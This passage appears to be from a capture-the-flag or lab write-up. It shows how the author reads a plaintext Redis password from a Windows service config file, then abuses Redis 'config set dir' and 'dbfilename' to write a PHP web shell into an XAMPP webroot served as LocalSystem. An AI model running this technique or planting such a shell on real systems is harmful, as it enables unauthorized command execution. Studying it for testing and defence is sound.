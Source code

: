 Get Redis client
```
$ sudo apt-get install redis-tools

$ redis-cli  
127.0.0.1:6379> config get *
(error) NOAUTH Authentication required.
```

That would have been too easy. Which config file is in use?

```
PS C:\Program Files\redis> wmic service get name,pathname,displayname,startmode,startname | findstr /i redis
Redis                                                                               Redis                                     "C:\Program Files\Redis\redis-server.exe" --service-run "C:\Program Files\Redis\redis.windows-service.conf"  Auto       NT AUTHORITY\NETWORKSERVICE  

PS C:\Program Files\redis> type redis.windows-service.conf | findstr /i pass
requirepass kidvscat_yes_kidvscat
# If the master is password protected (using the "requirepass" configuration
# masterauth <master-password>
# resync is enough, just passing the portion of data the slave missed while
# Require clients to issue AUTH <PASSWORD> before processing any other
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.
# requirepass foobared
```

> Password `kidvscat_yes_kidvscat`

Redis is running as networkservice, so probably has so proper writing rights on the disk. We can use it to write files to the webserver, which can then be executed by Apache. 

```
PS C:\WINDOWS\system32> wmic service get name,pathname,displayname,startmode,startname | findstr /i apache
Apache2.4                                                                           Apache2.4                                 "C:\xampp\apache\bin\httpd.exe" -k runservice                                                                Auto       LocalSystem 
```

Apache is part of XAMPP and is running as system! So lets get to work:


## Privilege escalation

Create files in the webroot of xampp. 

```
$ redis-cli 
127.0.0.1:6379> auth kidvscat_yes_kidvscat
OK
127.0.0.1:6379> config set dir c:\\xampp\\htdocs
OK
127.0.0.1:6379> config set dbfilename "shell.php"
OK
127.0.0.1:6379> set shell "<?php system($_GET['cmd']); ?>"
OK
127.0.0.1:6379> save
OK
```
